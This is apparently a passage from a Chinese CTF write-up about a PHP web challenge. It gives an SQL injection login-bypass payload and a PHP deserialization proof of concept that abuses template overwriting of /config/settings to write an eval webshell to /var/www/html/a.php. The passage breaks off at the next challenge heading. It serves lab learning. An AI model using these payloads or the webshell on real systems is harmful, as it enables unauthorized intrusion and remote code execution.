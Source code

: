 ```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

读不了源码



多了个模版管理，可以在新增模版这写点东西，但是生成不了php文件(大概是有白名单？)



后面是看群主视频整出来的：

大致思路是：

**利用新增模版覆盖掉/config/settings的内容，从而触发反序列化把马写进去**

好像是会调用/config/settings来进行渲染，配置页面的具体数据是以序列化的形式存放在settings里的，那么访问配置页面也就触发反序列化了（似乎是前面看的源码`render/render_class.php`）

![](https://i.loli.net/2021/11/22/oxVr68eAbPgtX5k.png)

poc：

```php
<?php
class db{
    public $log;
    public function __construct(){
        $this->log=new dbLog();
    }
}

class dbLog{
    public $content='<?php eval($_POST[1]);?>';
    public $log='/var/www/html/a.php';
}

$a = new db();
echo urlencode(serialize($a));
```

![](https://i.loli.net/2021/11/20/agxCZzAic5qTDQF.png)

然后访问平台设置->系统配置触发反序列化

![](https://i.loli.net/2021/11/20/93JoAgHdvkrWV7s.png)



## 505-文件包含

登录
